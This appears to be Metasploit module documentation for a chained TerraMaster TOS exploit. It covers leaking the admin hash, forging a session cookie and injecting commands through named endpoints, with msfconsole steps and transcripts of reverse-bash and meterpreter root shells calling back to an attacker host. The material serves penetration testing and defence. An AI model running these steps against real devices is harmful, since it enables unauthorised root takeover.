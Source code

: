 ## Vulnerable Application

This module provides a Terramaster chained exploit that performs session crafting to achieve escalated privileges
that allows an attacker to access vulnerable code execution flaws. TerraMaster Operating System (TOS) versions
`4.2.15` and below are affected.

[CVE-2021-45839](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45839) is exploited to obtain the first administrator's
hash set up on the system as well as other information such as MAC address, by performing a POST request to the
`/module/api.php?mobile/webNasIPS` vulnerable endpoint.
This information is used to craft an unauthenticated admin session using vulnerability
[CVE-2021-45841](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45841) where an attacker can self-sign session cookies
by knowing the target MAC address and the user password hash. Guest users (disabled by default) can be abused using a null/empty hash
and allow an unauthenticated attacker to login as guest which is used to download the `/etc/group` info to obtain the list of admin users
to be used for the session crafting.

Finally, [CVE-2021-45837](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-45837) is exploited to execute arbitrary commands as root
by sending a specifically crafted input to vulnerable endpoint `/tos/index.php?app/del`.

This module has been tested against a TerraMaster `F2-221` Model with the specifications listed below:

* TerraMaster F2-221
* CPU: `x86`
* TOS Version: `4.2.08`

## Verification Steps

1. `use exploit/linux/http/terramaster_unauth_rce_cve_2021_45837`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the `target` and `payload` settings.

## Options
No specific options.

## Scenarios

### TerraMaster F2-210 TOS 4.2.08 - Unix Command `cmd/unix/reverse_bash` session
```
msf exploit(linux/http/terramaster_unauth_rce_cve_2021_45837) > set target 0
target => 0
msf exploit(linux/http/terramaster_unauth_rce_cve_2021_45837) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Unix Command for cmd/unix/reverse_bash
[*] Command shell session 1 opened (192.168.10.1:4444 -> 192.168.10.2:41822) at 2023-06-06 07:27:36 +0000

uname -a
Linux TerrorMaster 4.13.16 SMP Tue Jun 06 09:28:43 CET 2023 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
### TerraMaster F2-210 TOS 4.2.08 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```
msf exploit(linux/http/terramaster_unauth_rce_cve_2021_45837) > set target 1
target => 1
msf exploit(linux/http/terramaster_unauth_rce_cve_2021_45837) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.2.08 and CPU architecture is X64.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045348 bytes) to 127.0.0.1
[*] Meterpreter session 2 opened (192.168.10.1:4444 -> 192.168.10.2:36938) at 2023-06-06 07:29:50 +0000
[*] Command Stager progress - 100.00% done (823/823 bytes)

meterpreter > sysinfo
Computer     : 192.168.10.2
OS           :  (Linux 4.13.16)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
No limitations.
